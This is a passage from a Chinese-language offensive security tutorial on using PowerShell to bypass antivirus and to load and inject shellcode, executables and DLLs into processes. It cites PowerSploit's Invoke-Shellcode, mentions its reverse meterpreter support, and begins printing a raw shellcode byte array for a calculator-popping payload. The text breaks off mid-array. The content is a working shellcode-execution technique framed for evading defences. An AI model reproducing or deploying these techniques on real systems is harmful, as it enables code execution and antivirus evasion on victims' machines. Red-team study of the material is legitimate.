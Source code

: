 # Powershell tricks::Code Execution & Process Injection

0x00 前言
=====

写这篇文章有两个原因，一是想介绍一下powershell的高级使用技巧，二是我在测试一些powershell脚本时发现了很多bug，提交给作者后更新的也不及时，于是就有了自己维护代码的想法. 接下来我会陆续把在drops上发的代码上传到github，大家共同学习，共同进步。 地址如下：[https://github.com/3gstudent](https://github.com/3gstudent)

![这里写图片描述](http://drops.javaweb.org/uploads/images/17799832ffd2f035d7c3fd0da386b8a9b01dc3d1.jpg)

此图片来自于 http://dfir-blog.com/2015/09/27/dissecting-powershell-attacks/

0x01 简介
=====

目前来说，Powershell依然能够bypass AV，以前的各种攻击技巧如果能够通过Powershell实现该有多好，所以这次先介绍一下如何利用Powershell分别加载Shellcode、exe、dll，以及通过Powershell如何向其他进程注入shellcode、dll。

0x02 测试环境
=====

```
win7 x86
win7 x64
win8 x86
win8 x64

```

0x03 Code Execution
=====

1、利用powershell加载shellcode
-------------------------

参考地址：  
[https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke--Shellcode.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke--Shellcode.ps1)

这个脚本不仅能够将shellcode注入到当前Powershell中，同时还支持在当前Powershell中反弹meterpreter，支持http和https协议。

**测试1：**

```
> 利用powershell加载shellcode

```

shellcode为弹出计算器

在Invoke--Shellcode.ps1尾部添加如下代码，并保存为CodeExecution-Shellcode.ps1

```
Invoke-Shellcode -Shellcode @(0xfc,0xe8,0x89,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,
                                  0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,0x31,0xc0,
                                  0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf0,0x52,0x57,
                                  0x8b,0x52,0x10,0x8b,0x42,0x3c,0x01,0xd0,0x8b,0x40,0x78,0x85,0xc0,0x74,0x4a,0x01,
                                  0xd0,0x50,0x8b,0x48,0x18,0x8b,0x58,0x20,0x01,0xd3,0xe3,0x3c,0x49,0x8b,0x34,0x8b,
                                  0x01,0xd6,0x31,0xff,0x31,0xc0,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf4,
                                  0x03,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe2,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,
                                  0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,0x24,
```